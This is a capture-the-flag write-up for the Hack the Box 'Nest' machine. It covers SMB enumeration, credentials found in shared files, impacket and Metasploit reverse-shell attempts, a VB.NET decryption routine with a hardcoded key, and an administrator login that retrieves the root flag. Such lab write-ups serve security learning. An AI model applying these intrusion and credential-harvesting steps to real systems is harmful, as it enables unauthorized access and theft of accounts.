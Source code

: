 +++
title = "Hack the Box: Nest"
date = 2023-01-08
description = "Hack the Box: Nest"
tags = [
    "Hack the Box",
    "Write-up"
]
+++

# Nest

## Enumeration

### Nmap

```
# sudo nmap -A -p 445,4386 -T4 -Pn -nvv nest.htb -e tun0 

PORT     STATE SERVICE       REASON          VERSION
445/tcp  open  microsoft-ds? syn-ack ttl 127
4386/tcp open  unknown       syn-ack ttl 127
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, X11Probe: 
|     Reporting Service V1.2
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     Reporting Service V1.2
|     Unrecognised command
|   Help: 
|     Reporting Service V1.2
|     This service allows users to run queries against databases using the legacy HQK format
|     AVAILABLE COMMANDS ---
|     LIST
|     SETDIR <Directory_Name>
|     RUNQUERY <Query_ID>
|     DEBUG <Password>
|_    HELP <Command>
```

enum4linux gives nothing

```
# enum4linux 10.10.10.178
```

```
# smbclient -L \\\\10.10.10.178\\
Enter WORKGROUP\robin's password: 

    Sharename       Type      Comment
    ---------       ----      -------
    ADMIN$          Disk      Remote Admin
    C$              Disk      Default share
    Data            Disk      
    IPC$            IPC       Remote IPC
    Secure$         Disk      
    Users           Disk      
SMB1 disabled -- no workgroup available
```

We can find files in:

```
# smbclient \\\\nest.htb\\DATA
# smb: \Shared\Maintenance\> mget "Maintenance Alerts.txt"
# smb: \Shared\Templates\HR\> mget "Welcome Email.txt"
```

Inside Welcome\ Email.txt we have: `Username: TempUser Password: welcome2019`

## Foothold

```
# enum4linux -u TempUser -p welcome2019 10.10.10.178
# Domain Name: WORKGROUP
```

Nothing found from:

```
# sudo psexec.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# sudo smbexec.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# sudo wmiexec.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# sudo secretsdump.py WORKGROUP/TempUser:welcome2019@10.10.10.178
# msf5 exploit(windows/smb/psexec
    # payload windows/x64/meterpreter/reverse_tcp
```

Let’s get back to smbclient then. `smbclient \\\\nest.htb\\DATA -U TempUser` then `recurse on` and we find in `config.xml` and `RU_config.xml`:

```
<Username>c.smith</Username>
<Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>

<File filename="C:\windows\System32\drivers\etc\hosts" />
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt" />
<File filename="C:\Users\C.Smith\Desktop\todo.txt" />
```

`smbclient \\10.10.10.178\Secure$ -U TempUser smb: > cd IT/Carl`

`smbget -rR smb://10.10.10.178/Secure$/IT/Carl -U TempUser` On [https://dotnetfiddle.net/](https://dotnetfiddle.net/) to get the decrypted password `C.Smith:xRxRxPANCAK3SxRxRx`

```
Imports System.Text
Imports System.Security.Cryptography
Public Class Utils
    Public Class ConfigFile
    Public Property Port As Integer
    Public Property Username As String
    Public Property Password As String

    Public Sub SaveToFile(Path As String)
                        Using File As New System.IO.FileStream(Path, System.IO.FileMode.Create)
            Dim Writer As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
            Writer.Serialize(File, Me)
        End Using
    End Sub

    Public Shared Function LoadFromFile(ByVal FilePath As String) As ConfigFile
        Using File As New System.IO.FileStream(FilePath, System.IO.FileMode.Open)
            Dim Reader As New System.Xml.Serialization.XmlSerializer(GetType(ConfigFile))
            Return DirectCast(Reader.Deserialize(File), ConfigFile)
        End Using
    End Function
  
End Class
    Public Shared Function DecryptString(EncryptedString As String) As String
        If String.IsNullOrEmpty(EncryptedString) Then
            Return String.Empty
        Else
            Return Decrypt(EncryptedString, "N3st22", "88552299", 2, "464R5DFA5DL6LE28", 256)
        End If
    End Function

    Public Shared Function Decrypt(ByVal cipherText As String, _
                                   ByVal passPhrase As String, _
                                   ByVal saltValue As String, _
                                    ByVal passwordIterations As Integer, _
                                   ByVal initVector As String, _
                                   ByVal keySize As Integer) _
                           As String
        Dim initVectorBytes As Byte()
        initVectorBytes = Encoding.ASCII.GetBytes(initVector)
        Dim saltValueBytes As Byte()
        saltValueBytes = Encoding.ASCII.GetBytes(saltValue)
        Dim cipherTextBytes As Byte()
        cipherTextBytes = System.Convert.FromBase64String(cipherText)
        Dim password As New Rfc2898DeriveBytes(passPhrase, _
                                           saltValueBytes, _
                                           passwordIterations)
        Dim keyBytes As Byte()
        keyBytes = password.GetBytes(CInt(keySize / 8))
        Dim symmetricKey As New AesCryptoServiceProvider
        symmetricKey.Mode = CipherMode.CBC
        Dim decryptor As ICryptoTransform
        decryptor = symmetricKey.CreateDecryptor(keyBytes, initVectorBytes)
                Dim memoryStream As System.IO.MemoryStream
                memoryStream = New System.IO.MemoryStream(cipherTextBytes)
        Dim cryptoStream As CryptoStream
        cryptoStream = New CryptoStream(memoryStream, _
                                        decryptor, _
                                        CryptoStreamMode.Read)
        Dim plainTextBytes As Byte()
        ReDim plainTextBytes(cipherTextBytes.Length)
        Dim decryptedByteCount As Integer
        decryptedByteCount = cryptoStream.Read(plainTextBytes, _
                                               0, _
                                               plainTextBytes.Length)
        memoryStream.Close()
        cryptoStream.Close()
        Dim plainText As String
        plainText = Encoding.ASCII.GetString(plainTextBytes, _
                                            0, _
                                            decryptedByteCount)
    System.Console.WriteLine(plainText)
    Return plainText
    End Function

Public Class SsoIntegration
    Public Property Username As String
    Public Property Password As String
End Class
    
    Sub Main()
        Dim test As New SsoIntegration With {.Username = "c.smith", .Password = Utils.DecryptString("fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=")}
    End Sub
End Class
```

## Privilege Escalation

`smbclient \\10.10.10.178\Users -U C.Smith smb: \C.Smith> mget user.txt`

`/home/robin/HQK_Config_Backup.xml telnet 10.10.10.178 4386`

`> DEBUG WBQ201953D8w setdir … setdir LDAP showquery 2`

`Domain=nest.local Port=389 BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local User=Administrator Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4`

Use AvaloniaILSpy and DnSpy

![](/img/nest1.png)

`XtH4nkS4Pl4y1nGX`

`sudo smbclient -E -U Administrator \\nest.htb\c$ XtH4nkS4Pl4y1nGX -c [sudo] password for robin: Try “help” to get a list of possible commands. smb: > get \Users\Administrator\Desktop\root.txt`

`cat \\Users\Administrator\Desktop\root.txt 6594c2eb084bc0f08a42f0b94b878c41`